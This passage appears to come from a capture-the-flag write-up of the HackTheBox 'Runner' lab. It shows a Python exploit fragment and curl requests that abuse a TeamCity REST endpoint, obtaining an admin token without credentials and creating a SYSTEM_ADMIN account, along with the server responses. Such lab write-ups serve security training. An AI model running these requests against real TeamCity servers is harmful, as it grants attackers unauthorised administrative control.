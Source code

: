 ```python
if token:
    headers = {
        "Authorization": f"Bearer {token}",
        "Content-Type": "application/json"
    }
    random_chars = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(4))
    username = f"city_admin{random_chars}"
    data = {
        "username": username,
        "password": "Main_password!!**",
        "email": "angry-admin@funnybunny.org",
        "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}
    }
    create_user_command = f'{curl_command} --path-as-is -H "Authorization: Bearer {token}" -X POST {create_user_url} -H "Content-Type: application/json" --data \'{{"username": "{username}", "password": "theSecretPass!", "email": "nest@nest", "roles": {{"role": [{{"roleId": "SYSTEM_ADMIN", "scope": "g"}}]}}}}\''
    create_user_response = requests.post(create_user_url, headers=headers, json=data)
    if create_user_response.status_code == 200:
        print("Successfully exploited!")
        print(f"URL: {url}")
        print(f"Username: {username}")
        print("Password: Main_password!!**")
    else:
        print("Failed to create new admin user")
```

Now that I know how it works, I will create the token to access any functionality of the api:

```bash
❯ curl -sS -X POST -i http://teamcity.runner.htb/app/rest/users/id:1/tokens/RPC2
HTTP/1.1 200 
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 21 Aug 2024 14:08:13 GMT
Content-Type: application/xml
Content-Length: 230
Connection: keep-alive
TeamCity-Node-Id: MAIN_SERVER
Cache-Control: no-store

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-08-21T14:08:12.588Z" value="eyJ0eXAiOiAiVENWMiJ9.ejRFN1ptazlJQU5MZEFrSk9QY1B5V2dOWXpN.NWFlNTRkYjQtMDRhNS00NThlLWFhNDctZDgyOThmNWY0ZjZm"/>
```

And create a user with admin privileges like in the script:

```bash
❯ curl -sS -X POST -i http://teamcity.runner.htb/app/rest/users -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.ZFVVb2k2OEVUUlV2b0Rtc3l4VGVCdlpWc1Jn.ZTQwYmU3NDItNjgzNS00MTNlLTg1YWYtMTQ4ZWY1ZmI5OWQw" -H "Content-Type: application/json" -d '{"username": "test", "email": "gabri@runner.htb", "password": "gabri123$!", "roles": {"role":[{"roleId": "SYSTEM_ADMIN", "scope":"g"}]}}'
HTTP/1.1 200 
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 21 Aug 2024 20:42:08 GMT
Content-Type: application/xml
Content-Length: 670
Connection: keep-alive
TeamCity-Node-Id: MAIN_SERVER
Cache-Control: no-store

```
